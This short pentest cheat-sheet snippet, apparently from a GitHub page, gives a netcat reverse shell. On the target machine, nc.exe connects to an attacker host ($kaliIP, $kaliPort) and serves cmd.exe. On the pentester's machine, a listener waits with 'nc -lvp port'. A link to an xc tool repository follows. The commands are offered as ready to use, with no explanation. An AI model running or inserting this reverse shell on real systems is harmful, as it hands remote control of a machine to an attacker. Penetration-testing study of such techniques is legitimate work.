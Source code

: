 **In the targeted machine**

```
nc.exe $kaliIP $kaliPort -e cmd.exe
```

**In the pentester's machine**

```
nc -lvp port
```

https://github.com/xct/xc

